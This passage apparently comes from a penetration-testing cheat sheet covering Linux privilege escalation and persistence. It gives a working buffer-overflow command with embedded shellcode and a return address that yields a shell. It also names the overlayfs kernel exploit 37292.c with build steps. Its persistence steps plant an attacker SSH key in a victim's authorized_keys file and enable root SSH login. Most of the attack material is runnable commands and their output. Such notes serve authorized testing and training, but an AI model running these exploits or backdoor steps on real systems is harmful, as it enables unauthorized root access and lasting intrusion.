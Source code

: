 ```bash
```

As you see above, you can pick address such as 0x7fffffffe268

```bash
(gdb) r $(python -c "print('\x90' * 86 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'A' * 36 + '\x68\xe2\xff\xff\xff\x7f\x00\x00')")
process 5250 is executing new program: /usr/bin/bash
sh-4.2$
```

Successfully got shell!

```
./<service> $(python -c "print('\x90' * 86 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'A' * 36 + '\x68\xe2\xff\xff\xff\x7f\x00\x00')")
sh-4.2$
```



### Kernel(overlayfs)

37292.c

if gcc is not available on target but only cc,

```bash
sed -i "s/gcc/cc/g" 37292.c
cc ofs.c -o ofs
./ofs
```



## Persistence

### Adding SSH key

On attacker machine,

```bash
ssh-keygen -f <output id_rsa file name> -C ""
```

copy the output to /home/<victim>/.ssh/authorized_keys

```bash
echo "OUTPUT_OF_<victim>.PUB" >> /home/<victim>/.ssh/authorized_keys
```

#### Activate SSH root login

In /etc/ssh/sshd_config, set as "PermitRootLogin yes" or "PermitRootLogin prohibit-password"

## Others
